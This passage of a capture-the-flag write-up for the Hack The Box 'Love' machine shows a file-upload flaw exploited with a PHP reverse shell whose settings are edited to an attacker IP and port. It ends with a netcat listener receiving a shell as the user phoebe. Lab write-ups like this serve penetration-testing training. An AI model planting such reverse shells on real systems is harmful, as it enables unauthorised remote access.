 So we are in ```love\phoebe``` privilege

### Manual exploit

We can see a ```file upload``` here,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Love/img/6.png)

Since it is running in PHP, lets put a ```PHP reverse shell``` in the file upload

The [PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) i always use

Editing the reverse shell,

```c
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.8';  // CHANGE THIS
$port = 5454;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'whoami';
$daemon = 0;
$debug = 0;
```

It is a ```Windows``` machine, so don't use Linux commands in it

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Love/img/7.png)

After uploading the ```reverse shell``` in image section

Check the uploaded PHP file after reloading

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Love/img/9.png)

Note that, the image has been overriden by our PHP reverse shell

After inspecting it and opening our PHP reverse shell,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Love/img/10.png)

Our ```netcat``` listener will be spawned with the reverse shell

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 5454
listening on [any] 5454 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.239] 53464
love\phoebe
```

## Privilege Escalation
